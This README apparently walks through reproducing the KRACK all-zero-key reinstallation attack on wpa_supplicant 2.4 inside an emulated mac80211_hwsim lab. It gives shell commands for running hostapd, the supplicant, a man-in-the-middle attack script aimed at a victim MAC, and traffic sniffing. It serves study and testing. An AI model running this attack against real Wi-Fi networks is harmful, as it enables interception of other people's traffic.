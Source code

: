# Proof Of Concept (Emulation with mac80211_hwsim)

## Initialise the Network Emulation

First, make sure that both interfaces `eth0` and `eth1` are available.

```bash
sudo ./init_network.sh eth1
```

```bash
sudo systemctl stop dnsmasq.service # Only if it is running
```

## Create and connect Supplicant and Authenticator
### Start the Access Point

```bash
sudo ip netns exec hostapd ./enable_internet_forwarding.sh eth1 wlan0
sudo ip netns exec hostapd dnsmasq -d -C dnsmasq.conf
```
Open a new Terminal session in this folder and run:

```bash
sudo su
source init_env_sup_ap
ip netns exec hostapd ./hostapd-2.4 hostapd.conf
```

### Start the Supplicant
Open a new Terminal session in this folder and run:
```bash
sudo su
source init_env_sup_ap
ip netns exec supplicant ./wpa_supplicant-2.4 -D nl80211 -i wlan1 -c supplicant.conf
```

### Test connection
Open a new Terminal session in this folder and run:
```bash
sudo ip netns exec hostapd ping krackattacks.com
sudo ip netns exec supplicant dhcpcd -n wlan1
sudo ip netns exec supplicant ping krackattacks.com
```
```bash
sudo ip netns exec supplicant iw dev
```

## Add MitM and perform the Attack
### Initialise Krackattack environment
Open a new Terminal session in `../krackattack-all-zero-tk-key/krackattack` and run:
```bash
sudo su
rfkill unblock wifi
source ../../poc-emulation/init_env_mitm
../../poc-emulation/enable_internet_forwarding.sh eth0 wlan3
pyenv shell 2.7.18
```

### Obtain MitM position and Reinstall Key
In the same session, while root, execute:
```bash
python ./krack_all_zero_tk.py wlan2 wlan3 eth0 "simulnet" -t <victim_mac_addr>
```
### Test connection
In a new session run some tests:
```bash
ping krackattacks.com
sudo ip netns exec supplicant ping krackattacks.com
sudo ip netns exec supplicant iw dev
```
### Sniff the traffic
Open Wireskark and sniff traffic on interface `wlan3` (the Interface of the Rougue AP).

### Check with patched `wpa_supplicant`


## De-initialise the Network Emulation
```bash
sudo ./clear.sh eth1
```
